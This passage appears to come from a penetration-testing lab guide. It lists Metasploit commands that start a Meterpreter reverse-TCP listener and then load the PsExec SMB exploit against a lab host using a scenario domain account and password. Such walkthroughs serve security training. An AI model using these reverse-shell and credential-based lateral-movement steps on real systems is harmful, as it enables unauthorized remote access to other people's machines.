 3. Set the parameters to listen for the payload with the following commands:

	 - `set LHOST 172.22.117.100`
	 - `set LPORT 4444`
	 - `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	 - `run -j`

     ![A screenshot depicts the results of these commands.](Images/runmulti.PNG)	

4. Load the module for PsExec with the following command:

	 - `use exploit/windows/smb/psexec`

5. Set the following options:

	 - set RHOST 172.22.117.20
	 - set SMBUser tstark
	 - set SMBPass Password!
	 - set SMBDomain megacorpone
